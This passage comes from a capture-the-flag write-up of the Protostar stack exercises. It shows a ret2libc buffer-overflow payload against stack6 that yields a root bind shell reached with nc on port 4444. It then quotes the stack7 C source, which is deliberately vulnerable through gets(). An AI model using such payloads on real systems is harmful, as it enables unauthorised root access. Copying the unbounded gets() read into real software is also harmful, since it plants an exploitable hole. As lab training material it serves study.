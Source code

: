 and lastly for our string address:

```lang-bash line-numbers 
user@protostar:~$ export BINDSHELL=/////////////////////////////////////home/user/bindshell
user@protostar:~$ ./envaddr BINDSHELL /opt/protostar/bin/stack6
BINDSHELL will be at 0xbffff962
```

Now, the exploit should look like:

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("A"*76 + "B"*4 + "\xb0\xff\xec\xb7" + "\xc0\x60\xec\xb7" + "\x62\xf9\xff\xbf")'` | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAABBBB����`�b���
listening on [any] 4444 ...
```

Now from a different terminal:

```lang-bash line-numbers 
user@protostar:~$ nc localhost 4444
id
uid=0(root) gid=0(root) groups=0(root),1001(user)
```

##Stack7
[Stack7](http://www.exploit-exercises.com/protostar/stack7) gives us the following code to exploit:

```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
